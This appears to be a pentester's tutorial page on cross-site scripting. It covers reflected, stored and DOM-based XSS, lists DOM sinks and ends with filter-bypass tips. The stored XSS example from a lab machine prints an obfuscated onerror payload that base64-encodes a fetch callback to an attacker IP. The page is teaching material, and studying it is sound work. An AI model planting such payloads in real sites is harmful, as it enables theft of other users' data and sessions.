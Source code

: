 ```yaml
---
description: <script>
---
```


# Cross-Site Scripting

Cross-Site Scripting, or XSS, is a vulnerability that would allow attackers to exploit the interactions that **other users** have with an application. In short, it can allow us to impersonate and perform actions as another user, steal information and in some cases, gain RCE.

The most common way of testing if XSS is present on a website is to call the Javascript alert function. For example, the script tags of HTML can be used :`<script>alert(1)</script>`. \
The image below shows an example of what would pop out.

<figure><img src="../.gitbook/assets/image (1) (3) (1).png" alt=""><figcaption></figcaption></figure>

## How it Works

Browsers and websites allow users to interact with them and perform actions through Javascript. XSS would work via injecting malicious Javascript code to execute on a user's browser. Basically, **scripting across the website**.

There are 3 types of XSS:

1. Reflected XSS
2. Stored XSS
3. DOM Based XSS

### Reflected XSS

Reflected XSS is the simplest form of the exploit. This occurs when a malicious script is reflected off a web application and onto the victim's browser. This script is normally activated through a link or action on the website and would be redirected to the next user.

<figure><img src="../.gitbook/assets/image (11) (3).png" alt=""><figcaption></figcaption></figure>

An example would be as follows:

* Suppose we have a website that had a URL that displayed a user-controlled term like http://example.com?search=test
* This search term would cause this to appear on the page:
  * `<p>You searched for: test </p>`
* Using Reflected XSS, we can construct a malicious search link that would trigger a pop-up to appear on screen.&#x20;
* Assuming the website does not have any filters, we can input **http://example.com?search=\<script>alert(1)\</script>** as the URL.
* When any client enters this link, our malicious script would execute on their end and the pop-up would show up in their browsers.
* This works because the rendering of HTML would show this:
  * `<p>You searched for: <script>alert(1)</script></p>`
  * The script tags allow for an 'escape' from the paragraph tags, and we can execute Javascript code within the tags.

Reflected XSS attacks still rely on the **victim user to make a request they control**. We still need the victim to perform a specific action in order to exploit this. This could be through sending phishing links or putting links on a website we control.

The reliance on the user makes the impacts of XSS less severe compared to the other forms of XSS.

### Stored XSS

Stored XSS means that the malicious script is stored on the website itself. Then, everytime a user visits the page that the script is on, it would execute. Stored XSS has much more severe impacts, as it only requires users to go visit the site. This can be in the form of a blog post comment, editing the website page to have hidden Javascript, etc.

<figure><img src="../.gitbook/assets/image (2) (3).png" alt=""><figcaption></figcaption></figure>

Here's an example of XSS from the HTB machine, Extension:

After enumeration of the website, we have identified that there is a stored XSS vulnerability in the 'Report Issues' function of the Gitea instance. The victim has been found to visit the Issues tab of the Gitea instance from time to time.&#x20;

This was the payload found to work: `test<test><img SRC="x" onerror=eval.call${"eval\x28atobZmV0Y2goImh0dHA6Ly8xMC4xMC4xNC41LyIp\x29"}>`

How this payload works is through rendering an **image** tag and having a script execute on an **event** called 'onerror', which means if the image fails to load, it would load the script. The scriptis calling an **eval** function which has a Base64 encoded command using **fetch** to connect back to the attacker machine on port 80.

When inputted, the victim would view the Issues and be served this payload. This would result in the victim's browser making a callback to the attacker machine. On the attacker machine, the following callback is received:

<figure><img src="../.gitbook/assets/image (1) (2).png" alt=""><figcaption></figcaption></figure>

This confirms that the XSS is working properly. For this machine, the payload can be modified to include information about a hidden directory that only the victim can access:

<figure><img src="../.gitbook/assets/image (5) (2).png" alt=""><figcaption></figcaption></figure>

Stored XSS is much more dangerous because it stores the script on the page itself and exploiting every user that visits it. In the above example, XSS was used to steal information about a directory that only the user could visit. In other cases, stuff like authorisation cookies or passwords can be stolen by attackers.

### DOM-Based XSS

DOM XSS arises when Javascript takes some input from a user-controlled source and processes it insecurely.&#x20;

> Document Object Model (DOM) is a programming interface for web pages, defining the structure of a document and how the document is accessed and manipulated. A website can use Javascript to do something, but uses DOM to access the document and the relevant elements. DOM is structured like a hiearchy tree, with a root element and other elements that are children of the root node.
>
> More can be read here:
>
> [https://developer.mozilla.org/en-US/docs/Web/API/Document\_Object\_Model/Introduction](https://developer.mozilla.org/en-US/docs/Web/API/Document\_Object\_Model/Introduction)

DOM XSS arises when data is passed to something called a **sink**, which is basically a function that supports **dynamic code execution.** This can be a function like **eval,** for example. Malicious Javascript code can be passed to this sink and allow for the execution of Javascript used to hijack other accounts.

Here are some sinks that can be used for DOM XSS:

```
document.write()
document.writeln()
document.domain
element.innerHTML
element.outerHTML
element.insertAdjacentHTML
element.onevent
add()
after()
append()
animate()
insertAfter()
insertBefore()
before()
html()
prepend()
replaceAll()
replaceWith()
wrap()
wrapInner()
wrapAll()
has()
constructor()
init()
index()
jQuery.parseHTML()
$.parseHTML()
```

These functions **are not limited to only XSS,** but can also be used for other DOM exploits, such as **open redirection,** through exploiting taint flow vulnerabilities.&#x20;

There are methods to test the HTML and Javascript sinks that are within a website that require the use of browser inspector tools, which would involve looking at how data is parsed by the function. First, we would need to identify a potential source (input location) whereby our input is processed via the sink. Then we can test them as follows:

* HTML Sinks
  * Input HTML strings within a potentially vulnerable sink.
  * Check the page source and try to find out string.
  * Attempt ot break out of the HTML tags to execute our code.&#x20;
* Javascript execution sinks
  * Sometimes, we cannot see our input anywhere within the DOM, so we can't search for it.&#x20;
  * Use the Javascript Debugger to determine whether and how our input is sent to a sink.
  * Add a break point and follow how the source's value is read, then track the variables to see if they are passed to a sink.&#x20;
  * Once we have found the sink, attempt to execute malicious Javascript by tweaking our payload.

**Here's an example of exploiting DOM-based XSS:**

Suppose we have this website that has a dashboard customised based on the username. The username is encoded **in the URL** and used directly on the page.

```markup
<html>
<head>
<title>Custom Dashboard </title>
...
</head>
Main Dashboard for
<script>
	var pos=document.URL.indexOf("context=")+8;
	document.write(document.URL.substring(pos,document.URL.length));
</script>
...
</html>
```

We can see that the vulnerable sink used is **document.write( ),** and the **source** would be a **context** parameter we pass to the website. We can then embed a malicious script in the URL like this: `http://example.com/dashboard.html#context=<script>alert(1)</script>`.&#x20;

A victim would then need to click this link. When the link is clicked and the browser starts building the DOM of the page, the browser would use the URL provided (in this case, the malcious link above) and run it. The malicious context parameter would then be extracted and the HTML is updated to have our code. The browser then runs this code and calls the alert function, thus making the XSS possible.&#x20;

## Payloads

XSS is a common vulnerablity and there are often measures to prevent it's execution. For example, a website could restrict the usage of **events** or **\<script>** tags to prevent users from exploiting it. However, there are always ways to bypass this.

In basic cases, websites can allow for \<script> tags to be used as input and allow for the embedding of HTML directly on the page. However, if the website has a WAF that does not allow this, we can brute force the possible tags possible.&#x20;

Event attributes can be used in conjunction with tags to deliver the payload, such as **onerror**. Again, this can be brute forced. A lot of XSS payloads out there are built to bypass WAF detection and execute our payload. I normally use Portswigger's cheat sheet to find all the possible tags and events for each browser.

> HTML Event attributes allow events to trigger actions on a browser, like starting Javascript whne a user clicks on an element. For example, using the \<img src="x" onerror=alert(1)> payload would attempt to render an image, which would always result in an error in this case. This would trigger the alert(1) to happen.

{% embed url="https://portswigger.net/web-security/cross-site-scripting/cheat-sheet" %}

There are loads of payload repositories out there, so I'm not going to make one here.

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection" %}
